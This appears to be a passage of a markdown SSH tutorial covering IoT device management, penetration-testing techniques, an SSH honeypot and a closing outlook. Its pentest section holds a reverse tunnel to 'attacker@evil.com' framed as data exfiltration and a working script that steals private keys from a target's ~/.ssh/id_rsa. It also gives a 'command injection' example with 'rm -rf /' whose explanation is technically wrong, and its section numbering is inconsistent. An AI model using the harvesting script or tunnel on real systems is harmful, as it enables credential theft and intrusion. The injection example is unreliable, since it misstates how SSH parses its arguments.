


# 🚀 SSH Mastery: Extreme Techniques and Applications 🌟

## Table of Contents
15. [🏠 SSH in IoT and Smart Home Automation](#-ssh-in-iot-and-smart-home-automation)
16. [🛡️ Advanced SSH Penetration Testing Techniques](#️-advanced-ssh-penetration-testing-techniques)
17. [🎭 SSH Honeypots for Threat Intelligence](#-ssh-honeypots-for-threat-intelligence)
18. [🌟 Conclusion: The Future of SSH in Cybersecurity and IoT](#-conclusion-the-future-of-ssh-in-cybersecurity-and-iot)

## 🏠 SSH in IoT and Smart Home Automation

### 19.1 Secure Remote Management of IoT Devices

```bash
ssh admin@iot-device.local -i ~/.ssh/iot_rsa
```

This command establishes a secure SSH connection to an IoT device. Here's what each part means:
- `ssh`: The command to start an SSH session
- `admin@iot-device.local`: The username (admin) and the device's local network address
- `-i ~/.ssh/iot_rsa`: Specifies the private key file for authentication

Using SSH keys instead of passwords increases security by eliminating the risk of weak or compromised passwords.

[Screenshot placeholder: Terminal window showing a successful SSH connection to an IoT device]

**Screenshot description:** The image shows a terminal window with a successful SSH connection to an IoT device. The prompt indicates that the user is now logged in as 'admin' on the device named 'iot-device'.

### 19.2 Automating IoT Updates via SSH

```bash
#!/bin/bash
for device in $(cat iot_devices.txt); do
    ssh -i ~/.ssh/iot_rsa admin@$device 'sudo apt update && sudo apt upgrade -y'
done
```

This script automates the process of updating multiple IoT devices using SSH. Here's how it works:
1. It reads a list of device addresses from a file called `iot_devices.txt`
2. For each device, it establishes an SSH connection
3. It runs update and upgrade commands on each device
4. The `-y` flag automatically answers 'yes' to prompts during the upgrade process

This script saves time and ensures all devices are updated consistently.

[Screenshot placeholder: Terminal window showing the script running and updating multiple IoT devices]

**Screenshot description:** The image displays a terminal window with the script executing. It shows multiple lines of output, each indicating a successful connection to a different IoT device and the progress of update and upgrade operations.

### 19.3 SSH Tunneling for IoT Data Collection

```bash
ssh -L 8086:localhost:8086 gateway@iot-hub.local
```

This command creates an SSH tunnel for securely accessing an IoT data collection service. Here's what it does:
- `-L 8086:localhost:8086`: Creates a local port forward
- `8086` (first occurrence): The local port on your machine
- `localhost:8086` (second occurrence): The destination on the remote machine
- `gateway@iot-hub.local`: The username and address of the IoT hub

This tunnel allows you to access a service (like InfluxDB) running on the IoT hub as if it were running on your local machine, providing a secure way to collect and analyze IoT data.

[Screenshot placeholder: Diagram showing the SSH tunnel between a local machine and an IoT hub]

**Screenshot description:** The image shows a diagram with two boxes: one representing the local machine and another representing the IoT hub. An arrow labeled "SSH Tunnel" connects them, illustrating how data flows securely through the tunnel.

### 19.4 Securing Smart Home Communications with SSH

<details>
<summary><strong>Click to view Python script</strong></summary>

```python
import paramiko
import json

def send_command_to_device(device_ip, command):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(device_ip, username='smarthome', key_filename='~/.ssh/smarthome_rsa')

    stdin, stdout, stderr = ssh.exec_command(command)
    response = stdout.read().decode()

    ssh.close()
    return json.loads(response)

# Usage
status = send_command_to_device('192.168.1.100', 'get_device_status')
print(f"Device Status: {status}")
```

</details>

This Python script demonstrates how to securely send commands to smart home devices using SSH. Here's how it works:
1. It uses the Paramiko library to create an SSH client
2. Connects to a device using its IP address and an SSH key for authentication
3. Sends a command to the device (in this case, 'get_device_status')
4. Receives and parses the JSON response from the device
5. Closes the SSH connection

This method ensures that all communications with smart home devices are encrypted and secure.

[Screenshot placeholder: Python IDE showing the script with syntax highlighting and a sample output]

**Screenshot description:** The image shows a Python IDE with the script open. The code is syntax-highlighted for readability. Below the script, there's a console output showing a sample device status in JSON format.

### SSH usage in IoT and smart home environments



This diagram illustrates how SSH is used in a smart home environment:
- The user's device connects to an IoT gateway using SSH
- The gateway then uses SSH to communicate with various smart devices
- Remote management and data collection are also performed securely through SSH connections

## 🛡️ Advanced SSH Penetration Testing Techniques

### 20.1 SSH Tunneling for Data Exfiltration

```bash
ssh -R 12345:localhost:80 attacker@evil.com
```

This command creates a reverse SSH tunnel, which can be used for data exfiltration in a penetration testing scenario. Here's what it does:
- `-R 12345:localhost:80`: Sets up a reverse port forwarding
- `12345`: The port on the remote machine (attacker's machine)
- `localhost:80`: The local address and port to be forwarded
- `attacker@evil.com`: The username and address of the attacker's machine

This tunnel allows the attacker to access a service running on port 80 of the compromised machine through port 12345 on their own machine.

[Screenshot placeholder: Terminal showing the establishment of a reverse SSH tunnel]

**Screenshot description:** The image displays a terminal window showing the SSH command being executed. It shows the successful establishment of the reverse tunnel, with no error messages.

### 20.2 SSH Command Injection

```bash
ssh 'victim@target.com; rm -rf /'
```

This command demonstrates a potential SSH command injection vulnerability. Here's how it works:
- `victim@target.com`: The intended SSH connection
- `; rm -rf /`: A malicious command injected after the SSH command

If not properly sanitized, this could execute the destructive command on the target system. This example highlights the importance of input validation and proper SSH configuration to prevent such attacks.

[Screenshot placeholder: Code snippet showing proper input sanitization for SSH commands]

**Screenshot description:** The image shows a code snippet in a programming language (e.g., Python or Bash), demonstrating how to properly sanitize and validate user input before using it in an SSH command.

### 20.3 SSH Key Harvesting

<details>
<summary><strong>Click to view Python script</strong></summary>

```python
import paramiko
import os

def harvest_keys(target, username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(target, username=username, password=password)

    stdin, stdout, stderr = ssh.exec_command('cat ~/.ssh/id_rsa')
    harvested_key = stdout.read().decode()

    with open(f'harvested_{username}_key', 'w') as f:
        f.write(harvested_key)

    ssh.close()
    print(f"Key harvested for {username} on {target}")

# Usage (for ethical purposes only)
harvest_keys('target.com', 'user', 'password123')
```

</details>

This Python script demonstrates a technique for harvesting SSH private keys from a compromised system. Here's how it works:
1. Establishes an SSH connection using provided credentials
2. Executes a command to read the contents of the private key file
3. Saves the harvested key to a local file

This technique could be used by attackers to gain unauthorized access to other systems. It's crucial to protect SSH keys and use this script only for authorized testing.

[Screenshot placeholder: Terminal output showing the successful harvesting of an SSH key]

**Screenshot description:** The image shows a terminal window with the output of the Python script. It displays a message indicating successful key harvesting, along with the name of the file where the harvested key was saved.

## 🎭 SSH Honeypots for Threat Intelligence

<details>
<summary><strong>Click to view Python script</strong></summary>

```python
import socket
import threading
import paramiko
import sys

class SSHServer(paramiko.ServerInterface):
    def check_auth_password(self, username, password):
        print(f"Login attempt: {username}:{password}")
        return paramiko.AUTH_FAILED

def handle_connection(client):
    transport = paramiko.Transport(client)
    transport.add_server_key(paramiko.RSAKey.generate(2048))
    server = SSHServer()
    transport.start_server(server=server)

def start_server():
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('0.0.0.0', 2222))
    sock.listen(100)
    print("SSH Honeypot running on port 2222...")

    while True:
        client, addr = sock.accept()
        print(f"Connection from: {addr[0]}:{addr[1]}")
        threading.Thread(target=handle_connection, args=(client,)).start()

start_server()
```

</details>

This Python script creates a simple SSH honeypot for gathering threat intelligence. Here's how it works:
1. It sets up a fake SSH server listening on port 2222
2. For each incoming connection, it starts a new thread to handle the connection
3. It logs all login attempts, including usernames and passwords
4. All authentication attempts are intentionally failed to prevent actual access

This honeypot can help security teams understand attack patterns and collect information about potential threats.

[Screenshot placeholder: Terminal output showing the SSH honeypot in action, logging multiple connection attempts]

**Screenshot description:** The image displays a terminal window showing the SSH honeypot script running. It shows multiple lines of output, each indicating a connection attempt from a different IP address, along with the usernames and passwords used in these attempts.

### Advanced SSH penetration testing techniques



This diagram illustrates various advanced SSH techniques used in penetration testing:
- SSH tunneling for creating covert channels
- Reverse shells for remote access
- Data exfiltration through encrypted SSH connections
- SSH key harvesting from compromised systems
- SSH honeypots for gathering threat intelligence

Understanding these techniques helps in building more robust defenses against sophisticated attacks.

## 🌟 Conclusion: The Future of SSH in Cybersecurity and IoT

As we've explored throughout this guide, SSH is not just a tool for secure remote access, but a versatile Swiss Army knife in the realms of cybersecurity and IoT. Its applications span from IoT device management to AI computation distribution, and from smart home automation to advanced penetration testing.

### Key Takeaways:

1. **Versatility**: SSH's flexibility allows it to be adapted for numerous use cases beyond simple remote access, especially in IoT environments.
2. **Security**: The strong encryption and authentication mechanisms of SSH make it a cornerstone of modern cybersecurity practices, crucial for protecting IoT ecosystems.
3. **Scalability**: From managing individual smart home devices to orchestrating large-scale IoT networks, SSH scales effectively.
4. **Double-Edged Sword**: While SSH is a powerful tool for system administrators and ethical hackers, it can also be exploited by malicious actors if not properly secured.

### Future Trends:

1. **Quantum-Resistant SSH**: As quantum computing advances, we'll see a shift towards quantum-resistant cryptographic algorithms in SSH implementations, crucial for long-term IoT security.
2. **AI-Driven SSH Management**: Machine learning will be increasingly used to detect anomalies in SSH usage patterns and automatically respond to potential threats in both traditional and IoT networks.
3. **Zero-Trust SSH**: Integration of SSH into zero-trust network architectures, with continuous authentication and authorization checks, particularly important in distributed IoT environments.
4. **SSH in Edge Computing**: As edge computing grows, SSH will play a crucial role in securely managing and accessing edge devices and IoT networks.

### Final Thoughts:

Mastering SSH is not just about understanding its basic functionality, but about recognizing its potential to solve complex problems in cybersecurity, IoT, and beyond. As technology evolves, SSH will continue to adapt, remaining an essential tool in the arsenal of IT professionals, IoT developers, and security experts.

Remember, with great power comes great responsibility. Always use these advanced SSH techniques ethically and legally, respecting privacy and security guidelines. Stay curious, keep learning, and use SSH to build a more secure digital world, from enterprise networks to smart homes! 🚀🔒🏠
